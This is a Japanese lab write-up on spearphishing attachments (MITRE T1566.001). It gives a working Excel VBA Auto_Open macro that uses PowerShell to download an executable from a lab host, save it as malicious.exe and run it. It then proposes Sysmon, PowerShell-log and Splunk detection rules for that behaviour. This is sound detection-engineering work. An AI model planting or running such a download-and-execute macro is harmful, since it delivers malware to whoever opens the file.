

# T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment 検証
-------------

MS Office VBA Macro によるリモートファイルの実行とその検知について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |


本検証では、リモート端末にホストされた悪意のあるファイルに見立てた calc.exe ファイルを取得し実行するマクロを実装します。

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。


追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。


ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。


```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。



リモート端末側では calc.exe が取得される様子が確認できます。


最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。


検知ルール検討
-------------

検知ルールについて検討します。
検証を行った本攻撃手法では、MS Office から cmd.exe が呼び出されています。
excel.exe や winword.exe といった MS Office が Caller となり cmd.exe や powershell.exe のプロセスが生成されることは通常の業務利用では稀であると考え、このプロセスの関係を検知ルールに落とし込む方法が考えられます。
Sysmon の EID 1 では生成されたプロセスとその呼び出し元プロセスがそれぞれ Image と ParentImageとして記録されます。

Splunk であれば以下のような SPL でプロセスの関係性をテーブル表示、またはビジュアル化することが可能です。

```
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
|eval ParentImage(From)=ParentImage 
|eval Image(To)=Image
|search "ParentImage(From)" != null
|table _time ParentImage(From) Image(To) process EventCode
|sort - _time
```


MS Office が Caller となり cmd.exe および powershell.exe のプロセスを生成する点に着目し、以下の検知ルールを提案します。

**MS Office からの cmd.exe および powershell.exe プロセス生成の検知ルール**

```
Sysmon
  EID 1 
    ParentImage 
      (*\EXCEL.EXE) OR (*\WINWORD.EXE)
　 AND
　 Image
      (*\cmd.exe) OR (*\powershell.exe) 
```

次に、本攻撃手法では、powershell.exe がリモートのファイルをダウンロードし、実行を行います。
その際に使われる Powershell のコマンドに着目し検知ルールを検討します。

Powershell の拡張ログでモジュールログ (EID4103)、スクリプトブロックログ (EID4104)それぞれで記録されるコマンド履歴に対してコマンドをマッチさせます。

Splunk であれば以下のような SPL で Powershell のコマンド部分を抽出することができます。

```
host="DESKTOP-53N6B15" source="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventID=4104
| rex field=EventData_Xml "<Data Name='ScriptBlockText'>(?P<PS_COMMAND>.+?)</Data>"  
| stats  count by PS_COMMAND  
| sort  - count
```


powershell.exe がリモートのファイルをダウンロードするコマンドに着目し、以下の検知ルールを提案します。

**powershell.exe によるリモートファイル取得の検知ルール**

```
Powershell
  EID 4103
    EventData
      Data Name="ContextInfo"
        (*WebClient*) AND (*DownloadFile*)
  OR
  EID 4104
    EventData
      Data Name="ScriptBlockText"
        (*WebClient*) AND (*DownloadFile*)
```

[Powershell.evtx をダウンロード](attach:attack-logs/T1566.001/Powershell.evtx)

[Sysmon.evtx をダウンロード](attach:attack-logs/T1566.001/Sysmon.evtx)